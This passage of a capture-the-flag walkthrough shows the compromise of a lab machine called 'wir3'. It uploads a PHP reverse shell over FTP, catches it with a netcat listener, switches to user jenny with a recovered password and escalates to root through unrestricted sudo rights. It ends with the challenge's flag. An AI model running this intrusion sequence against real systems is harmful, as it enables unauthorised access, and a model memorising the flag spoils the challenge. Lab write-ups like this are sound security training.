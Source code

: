 We found the new password for **jenny** : **987654321**

Now we can access to the FTP. It works.

Let's upload our reverseshell and don't forget to change the rights in order to be able to execute it ^^

```
ftp> put reverseshell.php 
local: reverseshell.php remote: reverseshell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (106.8894 MB/s)
ftp> chmod 777 reverseshell.php
200 SITE CHMOD command ok.
```

Now let's start a listener and execute the **reverseshell.php**

```
nc -nlvp 4444
listening on [any] 4444 ...
....
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@wir3:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Change to **jenny** user
```
www-data@wir3:/$ su jenny
Password: 987654321

jenny@wir3:/$ 
```

Check **jenny privileges** with **sudo -l**
```
jenny@wir3:/$ sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
```

We can execute **ALL** command so just let's do **sudo su**
```
jenny@wir3:/$ sudo -s
root@wir3:/# 
```

```
root@wir3:/# cat flag.txt
cat flag.txt
ebcefd66ca4b559d17b440b6e67fd0fd
```


**Answer** 
#### ebcefd66ca4b559d17b440b6e67fd0fd



